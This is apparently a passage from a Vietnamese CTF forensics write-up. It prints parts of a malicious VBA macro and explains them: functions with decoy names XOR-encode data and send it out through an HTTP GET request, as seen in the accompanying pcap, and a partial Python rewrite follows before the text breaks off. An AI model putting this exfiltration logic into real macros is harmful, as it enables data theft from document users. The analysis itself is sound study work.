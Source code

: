```
    doThing = A
End Function

Public Function superThing(ByVal A As String) As String
    With CreateObject("MSXML2.ServerXMLHTTP.6.0")
        .Open "GET", A, False
        .Send
        superThing = StrConv(.responseBody, vbUnicode)
    End With
End Function

Public Function something(B As String) As String
    Dim I As Long
    Dim A As String
    For I = 1 To Len(inputText)
        A = A & WorksheetFunction.Dec2Bin(Asc(Mid(B, I, 1)))
    Next I
    something = A
End Function

Public Function forensics(B As String) As String
    Dim A() As Byte
    Dim I As Integer
    Dim C As String
    A = StrConv(B, vbFromUnicode)
    For I = LBound(A) To UBound(A)
        C = C & CStr(A(I)) & " "
    Next I
    C = Trim(C)
    forensics = C
End Function
```
- Nhìn thì có vẻ dài dòng nhưng nó lại khá dễ hiểu :
    + anotherThing() - Hàm này về cơ bản chỉ thực hiện XOR trên hai chuỗi.
    + importantThing() - Hàm này tạo ra các số ngẫu nhiên và sắp xếp chúng.
    + TotalyFine() - Hàm này sửa đổi một chuỗi bằng cách thay thế dấu cách bằng dấu gạch nối.
    + superThing() - Hàm này gửi yêu cầu GET và trả về phản hồi.
    + something() - Hàm này chuyển đổi từng ký tự của chuỗi thành biểu diễn nhị phân của nó.
    + forensics() - Hàm này chuyển đổi một chuỗi thành biểu diễn byte bằng dấu cách.
- Có thể hiểu đơn giản là cái VBA script này tiến hành xor cách chuỗi thành các byte sau đó là gửi nó đi với `GET` ở dạng là 1 URL , y hệt những gì ta thấy ở trong file pcap.
- Đây là dạng rút gọn và dễ hiểu hơn của code trên :
```
def doThing(b: str, c: str) -> str:
    a = ""
    for i in range(len(b)):
        a += chr(ord(b[i]) ^ ord(c[i % len(c)]))
    return a


def forensics(b: str) -> str:
    a = b.encode("utf-8")
    c = " ".join(str(byte) for byte in a)
    return c


def totalyFine(b: str):
    return b.replace(" ", "-")


def something(b: str) -> str:
    a = ""
    for char in b:
```